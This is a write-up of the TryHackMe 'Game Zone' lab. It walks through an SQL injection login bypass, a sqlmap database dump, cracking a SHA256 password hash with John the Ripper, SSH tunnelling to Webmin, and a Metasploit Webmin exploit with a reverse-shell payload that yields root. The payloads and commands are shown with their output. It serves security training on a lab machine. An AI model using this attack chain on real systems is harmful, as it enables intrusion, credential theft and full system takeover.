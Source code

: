 ## TryHackMe Game Zone Writeup
---

[Link to TryHackMe Room](https://tryhackme.com/room/gamezone)

Task 1: Deploy the vulnerable machine

IP: 10.10.241.186

```
Nmap scan report for 10.10.241.186
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Task 2: Obtain access via SQLi

- SQL is the standard language for storing, editing, and retrieving data in databases. A query can look like so:
- 	SELECT * FROM users WHERE username = :username AND password := password

In the Game Zone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

By using a SQL injection: ' or 1=1 -- - , as the username and nothing as the password. I authenticates me.

This directs me to portal.php, I am now authenticated using the command. 


Task 3: Using SQLMap

SQLMap is an automatic SQL injection and database takeover tool. 

So the query packet can be intercepted and saved as request.txt or any file name.

```
$ sqlmap -r  /home/joey/ctf/tryhackme/rooms/game\ zone/sql-injection/request.txt --dbms=mysql --dump               

[22:51:45] [INFO] parsing HTTP request from '/home/joey/ctf/tryhackme/rooms/game zone/sql-injection/request.txt'
[22:51:45] [INFO] testing connection to the target URL
[22:51:45] [INFO] checking if the target is protected by some kind of WAF/IPS                                                     
[22:51:45] [INFO] testing if the target URL content is stable
[22:51:46] [INFO] target URL content is stable
[22:51:46] [INFO] testing if POST parameter 'searchitem' is dynamic        
[22:51:46] [WARNING] POST parameter 'searchitem' does not appear to be dynamic

-- SNIP --
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[22:58:41] [INFO] table 'db.users' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/users.csv'
[22:58:41] [INFO] fetching columns for table 'post' in database 'db'
[22:58:41] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[22:58:41] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name| description|
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11| Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.|
| 2  | Marvel Ultimate Alliance 3 | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005 | Best game ever|
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[22:58:41] [INFO] table 'db.post' dumped to CSV file '/home/joey/.local/share/sqlmap/output/10.10.241.186/dump/db/post.csv'
[22:58:41] [INFO] fetched data logged to text files under '/home/joey/.local/share/sqlmap/output/10.10.241.186'

[*] ending @ 22:58:41 /2021-11-24/
```

Task 4: Cracking a password with JohnTheRipper

John the Ripper (JTR) is a password cracker. 

This program works by taking a wordlist and hashing it with a specified algorithm, The encoded password is Sha256.
```
$ john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Created directory: /home/joey/.john

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:01 DONE (2021-11-25 00:01) 0.7299g/s 2128Kp/s 2128Kc/s 2128KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed


$ cat john.pot
$SHA256$ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124


$ ssh agent47@10.10.241.186

The authenticity of host '10.10.241.186 (10.10.241.186)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.186' (ED25519) to the list of known hosts.
agent47@10.10.241.186's password: 

user.txt
agent47@gamezone:~$ la
.bash_history  .bash_logout  .bashrc  .cache  .profile  user.txt
agent47@gamezone:~$ cat user.txt 
649ac1{REDACTED}
agent47@gamezone:~$ 
```

Task 5: Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specified that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Goint to localhost:9000 on your machine, will load imgur traffic using your other server. 

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to other server for others to view. 

```
$ ss
```

This tool is used to investigate sockets running on a host.

```
	$ ss -tulpn
	Netid	State		Recv-Q 	Send-Q	Local Address:Port	Peer Address:Port              
	udp		UNCONN		0		0		*:10000				*:*
	udp		UNCONN		0		0		*:68				*:*      
	tcp		LISTEN		0		80		127.0.0.1:3306		*:*
	tcp		LISTEN		0		128		*:10000				*:*
	tcp		LISTEN		0		128		*:22				*:*
	tcp		LISTEN		0		128		:::80				:::*
	tcp		LISTEN		0		128		:::22				:::*
```

There is an exposed port at 10000. This is inaccessible from the local machine so I can tunnel it back to the local machine with an SSH tunnel.

```
	$ ssh -L 10000:localhost:10000 agent47@10.10.241.186

	$ firefox 10.10.241.186:10000

```

I can login with the agent47 username and password.


Task 6: Privilege Escalation with Metasploit

For this part I needed to use the searchsploit to find relevant exploits.
```	
$ searchsploit webmin 1.580
---------------------------------------------------------------------------
 Exploit Title	|  Path

Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)| unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit) | /webapps/47330.rb


$ msfconsole 

search webmin

Matching Modules
================

   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

$ use exploit/unix/webapp/webmin_show_cgi_exec

$ set RHOSTS 127.0.0.1
$ set LHOST tun0
$ set payload cmd/unix/reverse
$ set SSL false

$ exploit

whoami
root
cd /root/
cat root.txt
a4b945{REDACTED}
```

## Complete

